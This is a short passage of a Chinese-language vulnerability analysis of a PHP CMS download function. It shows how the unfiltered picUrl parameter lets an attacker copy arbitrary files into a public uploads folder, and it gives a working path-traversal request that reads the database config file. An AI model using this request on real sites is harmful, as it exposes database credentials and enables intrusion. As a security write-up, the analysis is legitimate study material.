 分析传入变量 `picUrl` 的 `wp_file_get_contents`方法

```
$content = wp_file_get_contents($picUrl);
```

函数文件位置 `application\common.php`

![image-20220518160112407](./images/202205181601465.png)

可以看到这里没有对我们的参数进行过滤，只做了一个有关超时的操作, 回到函数继续向下分析

```
$picExt = substr($picUrl, strrpos($picUrl, '=') + 1);
if (empty($picExt) || $picExt == 'jpeg' || strpos('jpg,gif,png,jpeg,bmp', $picExt) === false) {
                $picExt = 'jpg';
}
$picName = NOW_TIME . uniqid() . '.' . $picExt;
$picPath = $savePath . '/' . $picName;
$res = file_put_contents($picPath, $content);
```

这里创建了有关当前时间的图片文件，并写入文件夹`/public/uploads/picture/` 下

我们先尝试控制变量 `$picUrl` 来写入数据库配置文件到图片中

```
/public/index.php/material/Material/_download_imgage?media_id=1&picUrl=./../config/database.php
```
